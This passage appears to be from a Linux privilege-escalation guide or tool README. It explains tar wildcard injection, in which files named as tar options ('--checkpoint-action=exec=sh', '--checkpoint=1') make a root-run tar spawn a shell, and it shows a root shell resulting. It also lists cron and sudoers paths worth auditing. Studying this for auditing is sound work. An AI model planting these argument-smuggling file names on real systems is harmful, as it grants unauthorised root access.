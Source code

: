 **save file using tar arguments as file names:**

- --checkpoint-action=exec=sh
- --checkpoint=1

**Once created, this is what you will find:**

  

user@host:~$ ls -la 

total 32

-rw-r--r-- 1 user user     5 Jan 12 10:34 --checkpoint-action=exec=sh

-rw-r--r-- 1 user user     3 Jan 12 10:33 --checkpoint=1

drwxr-xr-x 2 user user  4096 Jan 12 10:34 .

drwxr-xr-x 7 user user  4096 Jan 12 10:29 ..

-rwxr-xr-x 1 user user    22 Jan 12 10:32 test.sh

  

If this file is executed as root (from cron table, from sudoers, etc.), you should gain root access on the system.

  

user@host:~$ sudo ./test.sh 

sh-4.3# id

uid=0(root) gid=0(root) groups=0(root)

  

So depending on which binary and how the wildcard are used, the exploitation can be done or not. So on our example, the exploitation would not work anymore if the file would be like this:

  

user@host:~$ cat test.sh

tar cf archive.tar *.txt

  

Thus, using a tool to detect these misconfigurations is very difficult. A manually analyse should be done to check if it's a false positive or not.

  

### Sensitive files

Lots of file are run with high permissions on the system (e.g cron files, services, etc.). Here is an example of intersting directories and files:

- /etc/init.d
- /etc/cron.d 
- /etc/cron.daily
- /etc/cron.hourly
- /etc/cron.monthly
- /etc/cron.weekly
- /etc/sudoers
- /etc/exports
- /etc/at.allow
- /etc/at.deny
- /etc/crontab
- /etc/cron.allow
- /etc/cron.deny
- /etc/anacrontab
- /var/spool/cron/crontabs/root
